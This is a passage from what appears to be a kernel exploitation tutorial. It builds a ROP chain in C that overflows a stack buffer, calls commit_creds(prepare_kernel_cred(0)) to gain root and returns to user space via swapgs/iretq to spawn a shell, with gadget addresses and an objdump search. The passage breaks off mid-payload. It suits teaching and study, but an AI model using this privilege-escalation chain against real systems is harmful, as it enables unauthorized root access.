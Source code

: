 The goal with these 3 gadgets is to move `rax` into `rdi` without taking the `jne`. So I have to pop the value 8 into `rdx`, then return to a `cmp` instruction to make the comparison equals, which will make sure that we won't jump to `jne` branch:
```C
...
payload[off++] = pop_rdx_ret;
payload[off++] = 0x8; // rdx <- 8
payload[off++] = cmp_rdx_jne_pop2_ret; // make sure JNE doesn't branch
payload[off++] = 0x0; // dummy rbx
payload[off++] = 0x0; // dummy rbp
payload[off++] = mov_rdi_rax_jne_pop2_ret; // rdi <- rax
payload[off++] = 0x0; // dummy rbx
payload[off++] = 0x0; // dummy rbp
payload[off++] = commit_creds; // commit_creds(prepare_kernel_cred(0))
...
```

Secondly, it seems that `ROPgadget` can find `swapgs` just fine, but it can't find `iretq`, so I have to use `objdump` to look for it:
```bash
objdump -j .text -d ~/vmlinux | grep iretq | head -1
-> ffffffff8100c0d9:       48 cf                   iretq  
```

With the gadgets in hand, we can build the full ROP chain:
```C
unsigned long user_rip = (unsigned long)get_shell;

unsigned long pop_rdi_ret = 0xffffffff81006370;
unsigned long pop_rdx_ret = 0xffffffff81007616; // pop rdx ; ret
unsigned long cmp_rdx_jne_pop2_ret = 0xffffffff81964cc4; // cmp rdx, 8 ; jne 0xffffffff81964cbb ; pop rbx ; pop rbp ; ret
unsigned long mov_rdi_rax_jne_pop2_ret = 0xffffffff8166fea3; // mov rdi, rax ; jne 0xffffffff8166fe7a ; pop rbx ; pop rbp ; ret
unsigned long commit_creds = 0xffffffff814c6410;
unsigned long prepare_kernel_cred = 0xffffffff814c67f0;
unsigned long swapgs_pop1_ret = 0xffffffff8100a55f; // swapgs ; pop rbp ; ret
unsigned long iretq = 0xffffffff8100c0d9;

void overflow(void){
    unsigned n = 50;
    unsigned long payload[n];
    unsigned off = 16;
    payload[off++] = cookie;
    payload[off++] = 0x0; // rbx
    payload[off++] = 0x0; // r12
    payload[off++] = 0x0; // rbp
    payload[off++] = pop_rdi_ret; // return address
    payload[off++] = 0x0; // rdi <- 0
    payload[off++] = prepare_kernel_cred; // prepare_kernel_cred(0)
    payload[off++] = pop_rdx_ret;
    payload[off++] = 0x8; // rdx <- 8
    payload[off++] = cmp_rdx_jne_pop2_ret; // make sure JNE doesn't branch
    payload[off++] = 0x0; // dummy rbx
    payload[off++] = 0x0; // dummy rbp
    payload[off++] = mov_rdi_rax_jne_pop2_ret; // rdi <- rax
    payload[off++] = 0x0; // dummy rbx
    payload[off++] = 0x0; // dummy rbp
    payload[off++] = commit_creds; // commit_creds(prepare_kernel_cred(0))
    payload[off++] = swapgs_pop1_ret; // swapgs
    payload[off++] = 0x0; // dummy rbp
    payload[off++] = iretq; // iretq frame
    payload[off++] = user_rip;
    payload[off++] = user_cs;
    payload[off++] = user_rflags;
```